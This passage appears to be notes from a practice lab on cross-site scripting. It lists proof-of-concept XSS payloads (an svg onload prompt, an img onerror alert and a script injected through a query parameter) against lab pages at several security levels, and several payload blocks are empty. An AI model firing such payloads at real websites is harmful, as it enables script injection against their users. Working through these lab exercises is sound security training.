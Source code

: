 ### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  XSS - Reflected (AJAX/JSON) 💀

xss_ajax_2-1.php

```
<svg onload=prompt(0)>
```


### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  XSS - Reflected (AJAX/XML) 💀

xss_ajax_1-1.php

```
&lt;img src=&apos;#&apos; onerror=&apos;alert(1)&apos;&gt;
```

Alternatively I was able to get XSS to execute on the AJAX called.

```
xss_ajax_1-2.php?title=<html xmlns='http://www.w3.org/1999/xhtml'><script>prompt(0)</script></html>
```

